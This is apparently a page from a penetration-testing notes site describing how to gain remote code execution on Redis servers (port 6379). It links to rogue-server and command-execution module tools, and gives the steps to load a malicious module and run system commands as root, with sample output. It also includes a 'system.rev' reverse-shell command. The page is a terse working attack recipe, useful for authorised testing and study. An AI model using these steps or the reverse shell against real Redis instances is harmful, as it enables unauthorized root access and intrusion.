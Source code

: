 ```yaml
---
layout: default
title: REDIS Pentesting
nav_order: 2
has_children: false
parent: Services Pentesting
grand_parent: Pentesting
---
```


## REDIS Pentesting (6379) :

### Interract :
```bash
redis-cli -h $IP
```

### RCE :

#### Interractive Shell 
The following tool might help to get an access to the instance :  [https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)


#### Load Redis Module

The following link provide information regarding the redis module loading : [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

**Load the module** has to be loaded so a write folder is needed. 

**Load the uploaded module** at runtime with `MODULE LOAD /path/to/mymodule.so`

**List loaded modules** to check it was correctly loaded: `MODULE LIST`

**Execute** **commands**:

```sh
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```

**Unload the module** whenever you want: `MODULE UNLOAD mymodule`